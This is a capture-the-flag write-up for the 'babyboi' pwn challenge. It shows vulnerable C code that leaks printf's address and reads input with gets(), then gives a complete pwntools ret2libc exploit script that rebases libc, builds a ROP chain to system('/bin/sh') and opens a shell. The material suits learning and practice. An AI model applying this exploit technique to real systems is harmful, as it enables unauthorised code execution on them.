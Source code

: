 # babyboi (pwn)  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/5193c893-c44d-4eca-af75-3d2f0a0169bb)  
Now our binary is dynamically linked, which makes a couple of things different.  
Our binary is smaller, so we might not have that many ROP gadgets.  
Also we will now have most of `libc` available, since when Dynamically linking many unsused functions are linked.  
Also, most `libc` binaries have `/bin/sh` somewhere in them, so we might not have to write it to memory ourselves

Running this program prints an address and asks for input.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c347a3f8-bd2a-45a2-81f5-793d99a2ea0e)  

This time we are provided the source code and libc.  
Before even looking at the source code we can use `pwninit` to patch the binary. This way we can make sure that it is using the correct libc.  

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv[]) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  char buf[32];
  printf("Hello!\n");
  printf("Here I am: %p\n", printf);
  gets(buf);
}
```
We can see that the address printed to console is the address of `printf()`, which will allow us to bypass aslr.  
Then we use `gets()`... >:(  

## Exploitation  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/84052646-d6fe-428e-b30d-d5b776f084e9)  
Notice that our small binary does not contain a syscall gadget.  
Therefore our previous approach of using ROP to call `execve` does not work.  
However, we can abuse the dynamically linked `libc` to call `system("/bin/sh")`.  

The plan is to use the leaked address to determine the position of system in `libc`, then use rop to load the address of `/bin/sh` to `rdi` and call `system()`.  

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./baby_boi_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug(['./baby_boi_patched'] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process(['./baby_boi_patched'] + argv, *a, **kw)

gdbscript = '''
tbreak main
'''.format(**locals())


def main():
    io = start()
    io.recvuntil(b"I am: ")

    printf_addr = int(io.recvline()[:-1],16)
    log.success("printf located @ "+hex(printf_addr))

    libc.address = printf_addr - libc.sym['printf'] #rebase our libc to bypass aslr

    binsh = next(libc.search(b"/bin/sh"))
    log.success("binsh string at "+hex(binsh)) # find the address of binsh in libc

    rop = ROP([exe,libc])
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0] # this gadget will be used to load the address of binsh to memory
    log.success("pop rdi at "+hex(pop_rdi))

    ret = rop.find_gadget(['ret'])[0] # we need this to prevent stack alignment issues

    padding = b'A'*40 # pad until return address

    payload = padding + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(libc.sym['system'])
    io.sendline(payload)

    io.interactive()

if __name__ == "__main__":
    main()
```
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/62af1d9f-2711-4d6c-b431-72504be0b0f2)


